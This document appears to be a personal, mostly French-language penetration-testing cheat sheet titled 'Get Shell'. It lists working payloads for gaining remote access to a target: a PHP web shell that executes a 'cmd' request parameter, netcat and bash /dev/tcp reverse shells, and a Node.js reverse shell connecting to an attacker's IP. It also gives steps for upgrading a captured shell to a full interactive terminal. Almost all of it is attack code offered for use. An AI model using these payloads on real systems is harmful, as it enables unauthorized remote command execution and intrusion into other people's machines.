```yaml
---
description: I'll add way to get shells as i'll use them
---
```


# Get Shell

## Explication

Those lines are to use on the target, on the attacker we'll use `nc -lvpn <port>` to receive the connexion.

## PHP

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Netcat

`nc -e /bin/sh <host> <port>`

## Bash

```bash
# on target
bash -i >& /dev/tcp/<ip>/<port> 0>&1
# des fois il faut l'entourer ainsi
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

* `/dev/tcp` est fournit directement par bash et n'existe que pour les redirections
* `-i` permet de créer un shell interactif
* `>&` Redirige STDOUT et STDERR du shell vers la connection
* `0>&1` Redirige STDIN \(de la co\) vers STDOUT \(de la co je pense\)
* `bash -c` permet de s'assurer que c'est bash et non un autre shell de la machine qui exécutera la commande, c'est nécessaire car /dev/tcp n'est fournit que par lui

## Node

```javascript
(function(){
    var cp = require("child_process");
    var sh = cp.spawn("/bin/sh", []);
    var net = require("net");
    var client = new net.Socket();
    client.connect(my_port, "my_ip", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js app from crashing
})();
```

## Metasploit

* Un shell donné par metasploit ne sera pas forcément persistant, aka tu peux utiliser que des 1 liners parce que l'état n'est pas conservé \(genre un cd te déplacera pas\)

## Upgrade your shell

* Les shells qu'on récupère ainsi sont rarement pratique, ils réagissent mal au tab, n'ont pas d'auto-completion, se ferme avec CTRL-C, etc.
* Pour récupérer un vrai shell. suivre ces étapes : 
  * Sur la victime, spawn un shell via python \(testé avec python3 si le 2 n'est pas dispo\)`python -c 'import pty; pty.spawn("/bin/bash")'`
  * Sur l'attaquant, check notre type de terminal `echo $TERM`
  * Sur la victime, export ces 2 var : `export TERM=...` & `export SHELL=/bin/bash`
  * Ctrl-z sur la victime
  * Ca nous remets sur l'attaquant, check les diffs du terminal avec `stty size`
  * Lancer \(toujours sur l'attaquant\) `stty raw -echo;fg`
  * Taper `reset`
  * Taper `stty rows ... columns ...`

